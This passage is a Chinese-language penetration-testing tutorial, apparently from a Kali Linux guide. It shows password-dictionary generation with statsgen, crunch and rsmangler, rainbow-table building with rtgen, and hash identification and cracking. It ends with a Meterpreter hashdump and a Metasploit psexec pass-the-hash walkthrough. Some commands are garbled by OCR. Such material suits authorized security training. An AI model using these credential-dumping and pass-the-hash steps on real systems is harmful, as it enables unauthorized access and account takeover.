 ## 创建字典
- 这里的字典就是密码字典。如果要实施密码攻击，密码字典是必不可少的。用户可以通过对密码信息收集并分析，创建一个更合理的密码字典。这样做不仅可以提高破解成功率，还能缩短破解的时间


#### 分析己有密码字典策略
用户可以分析目标用户相关人群泄漏的密码，获取同类人群的密码设定策略，然后以此构建一个新的字典。马尔可夫攻击方式 （Markov Attack）可以分析己有的密码字典文件，并且统计密码宇典每个字符的出现概率、位置分布以及前后关系。然后，结合这些规则，可以使用掩码生成更为有效的密码字典。Kali Linux 提供了一个名为 Stasprocessor 工具，支持Markov Attack 技术。
```c
statsgen [options] passwords. txt
/*
以上语法中，options 表示可用的选项;passwords.txt 表示分析的密码字典。其中，该工具支持的选项及含义如下：
--version：显示版本信息。
--help：显示帮助信息
-o password.masks,-output-passwords.masks：保存掩码和统计信息到一个文件
--hiderare：隐藏比例小于 1%的统计项
--minlength-8：过滤密码最小长度为8的密码
--maxlength=8：过滤密码最大长度为8的密码
-charset-loweralpha,numeric：指定过滤的密码字符，使用逗号分隔
--simplemask=stringdigit,allspecial：过滤密掩码格式，使用逗号分隔
*/

//使用statsgen工具分析rockyou.txt密码字典
statsgen rockyou.txt
/*
执行以上命令后，将开始对指定的密码字典进行分析，并进行统计。
其中，输出的信息包括工具的基本统计信息、密码长度、字符集、密码复杂度、简单掩码和高级掩码。
为了使用户对输出结果更清楚，
*/
```

#### 生成字典
- 当用户收集足够的目标用户信息及密码策略后，就可以根据获取的信息来创建密码宇典了。

- 使用Crunch工具
- Crunch 是一种密码字典生成工具。它可以按照指定的规则生成密码字典，用户可以灵活地定制自己的密码字典文件
```c
//使用Crunch工具生成字典的语法格式如下：
crunch <min> <max> [«charset string>] [options]
/*
以上语法中，参数<min>表示生成密码的最小长度；＜max>表示生成密码的最大长度；<charset string>表示指定的字符集：[options]表示有效的选项。其中，常用的选项及含义如下：
-o：指定生成的密码宇典文件名。
-b number[type]：指定写入文件最大的字节数。该大小可以指定KB、MB 或 GB,但是必须与-0 START 选项一起使用。
-t：设置使用的特殊格式
-l：该选项用于当-t选项指定@、%或^时，识别占位符的一些字符。
*/
```
- Crunch 工具默认提供的字符集保存在/usr/share/crunch/charset.lst 文件中。此时，用户可以直接使用这些字符集来生成对应的密码字典

```c
//使用Crunch工具生成一个最小长度为 8、最大长度为10 的密码字典文件，并保存到root/crunch.txt 文件。其中，使用的字符集 hex-lower， 即0123456789abcdef。
crunch 8 10 hex-lower -o /root/crunch.txt
```

#### 使用rsmangler工具
- rsmangler 是一个基于单词列表关键词生成字典的工具。使用该工具可以基于用户收集的信息，并利用常见密码构建规则来构建宇典。其中，rsmangler 工具的语法格式如下：
```shell
rsmangler -f wordlist.txt -0 new passwords.txt
#以上语法中的选项及含义如下：
#-f,-file：指定输入文件，即用户收集到的密码单词。
#-o,-output：指定生成的字典文件名称。

#使用 rsmangler 工具生成字典。具体操作步骤如下：
#(1）创建一个文件，用来保存收集的密码单词。这里将创建一个名为 test 的文件，简单单保存两个单词用来生成新的宇典。如下：
root@daxueba : ~# vi test
root
password
#(2）使用 rsmangler 工具生成宇典，并保存到 pass.txt中。执行命令如下：
root@daxueba:~# rsmangler -f test -o pass.txt

#执行以上命令后，将不会输出任何信息。此时，用户可以使用 cat 命令查看生成的字典文件
root@daxueba:~# cat pass.txt
root
password
rootpassword
passwordroot
rp
rootroot
toor
Root
ROOT
rooted
rooting
pwroot
rootpw
pwdroot
rootpwd
adminroot
rootadmin
sysroot
rootsys
r007
root!
roote
roots
root%
root^
root&
root*
root (
root)
1990root
root1990
1991root
.....
```

#### 使用rtgen工具
rtgen 工具用来生成彩虹表。彩虹表是一个庞大的针对各种可能的字母组合和预先计算好的哈希值的集合。其中，生成的彩虹表包括多种算法，如LM、NTIM、MD5、SHA1和 SHA256。然后，使用该彩虹表可以快速地破解各类密码。
```shell
Itgen hash_algorithm charset_plaintext len_min plaintext_len_max table_index chain_len chain_num part_index
#或者
rtgen hash_algorithm charset plaintext_len_min plaintext _len_max table_index -bench
#以上语法中的参数含义如下：
#hash_algorithm： 指定使用的哈希算法。其中，可指定的值包括 lm、ntlm、md5、sha1和sha256。
#charset： 指定字符集。其中，rtgen工具默认提供的字符集文件为/usr/share/rainbowcrack/charset.txt，具体如下：
root@daxueba: /usr/share/rainbowcrack# cat charset.txt
#以上输出信息显示rtgen 工具默认提供的所有字符集
#plaintext_len_min：指定生成的密码最小长度
#plaintext_len_max：指定生成的密码最大长度
#table_index：指定表单数量
#chain_len：指定链长度
#chain_num：指定链个数
#part_index：指定块数量

#使用rtgen工具生成一个基于MD5的彩虹表。其中，指定密码的最小长度为4，最大长度为8
root@daxueba: ~# rtgen md5 loweralpha 4 8 0 1000 1000 0
generating...
1000 of 1000 rainbow chains generated (0 m 0.2 s)
#看到以上输出的信息，表示成功生成了一个基于MD5的彩虹表，文件名为md5_ loweralpha#4-8_0_1000x1000_0.rt。 其中，该彩虹表默认保存在/ust/share/rainbowcrack目录中：
root@daxueba:~# cd /usr/share/rainbowcrack/
root@daxueba:/usr/share/rainbowcrack# ls
alglib0.so charset.txt md5 loweralpha#4-8_0_1000x1000_0.rt rcrack readme.txt rt2rtc Itc2rt rtgen rtmerge rtsort
#从输出的信息可以看到，生成的彩虹表文件为 md5_loweralpha#4-8_0_1000x1000_O.rt。为了更方便使用生成的彩虹表，可以使用rtsort 命令对其进行排序。执行命令如下：
root@daxueba:/usr/share/rainbowcrack# rtsort md5_loweralpha#4-8_0_1000x1000_0.rt
```

#### 破解哈希密码
- 为了避免信息泄漏造成的危害，在实际应用中，软件和系统会将密码进行加密，然后进行保存。常见的加密方式是各种哈希算法。这类算法可以将不同长度的密码加密成固定长度的字符串。由于加密后的字符串位定长，并且不能被直接逆向破解，所以安全度非常高，也因此被广泛应用。

##### 识别哈希加密方式
- 哈希加密是一类算法，包含很多种具体的算法。滲透测试者在破解一个哈希密码时，如果确定该哈希密码的加密方式，就可以选择针对性的工具和方式实施破解了，可以节约大量的时间，从而提高破解效率。
```shell
#下面使用hashid工具，识别哈希密码值6bcec2ba2597f089189735afeaa300d4的加密方式
root@daxueba:~# hashid 6bcec2ba2597f089189735afeaa300d4
Analyzing
6bcec2ba2597f089189735afeaa300d4
[+] MD2
[+] MD5
[+] MD4
[+] Double MD5
[+] LM
[+] RIPEMD-128
[+] Haval-128
[+] Tiger-128
[+] Skein-256 (128)
[+] Skein-512 (128)
[+] Lotus Notes/Domino 5
[+] Skype
[+] Snefru-128
[+] NTLM
[+] Domain Cached Credentials
[+] Domain Cached Credentials 2
[+] DNSSEC (NSEC3)
[+] RAdmin v2.x
#以上输出信息显示了可能使用的哈希密码方式。其中，显示在前面的哈希类型方式可能性更大。由此可以猜测出，该密码的哈希类型为MD2或MD5
```

##### 破解LM Hashes 密码
- LM (LAN Manager) Hash 是Windows 操作系统最早使用的密码哈希算法之一。
```c
//使用 findmyhash 工具破解密码的语法格式如下：
findmyhash <algorithm> OPTIONS
/*
以上语法中，参数 algorithm 表示指定破解的密码算法类型，支特的算法有MD4、MD5、
SHA1, SHA224, SHA256, SHA384, SHA512, RMD160, GOST、WHIRLPOOL, LM、NTLM、MYSQL、CISCO7、JUNIPER、LDAP_MD5和LDAP_SHA1. OPTIONS用的选项。其中，常用的选项及含义如下：
*/
//-h <hash value>：指定破解的哈希值。
//-f<file>：指定破解的哈希文件列表。
//-g：如果不能破解哈希密码，将使用 Google 搜索并显示结果。其中，该选项只能和上选项一起使用。
//使用findmyhash 工具破解LM哈希密码5f4dcc3bSaa76Sd61d8327deb882cr99的原始密码。执行命令如下：
root@daxueba:~# findmyhash MD5 -h 5f4dcc3b5aa765d61d8327deb882cf99
```
##### 直接使用哈希密码值
- 当用户无法破解哈希密码时，利用特定的漏洞可以直接使用哈希密码，而无须破解。在Metasploit 框架中，可以通过使用 exploit/windows/smb/psexec 滲透测试模块，来直接使用哈希密码，绕过密码验证。
```c
//通过使用 exploitwindows/smb/psexec 渗透测试模块，来直接利用哈希密码
//在Meterpreter 会话中使用 hashdump 命令获取哈希密码：
meterpreter > hashdump
//后台运行 Meterpreter 会话，并切换到模块配置界面。
meterpreter > background
[*] Backgrounding session 1...
//选择exploit/windows/smb/psexec 模块，并查看模块配置选项。
msf5 exploit (multi/handler) > use exploit/windows/smb/psexec
msf5 exploit (windows/smb/psexec) > show options
//配置选项参数
msf exploit (psexec) > set HOSTS 192.168.29.143
//实施渗透，直接使用哈希密码值
msf exploit (psexec) > exploit
```

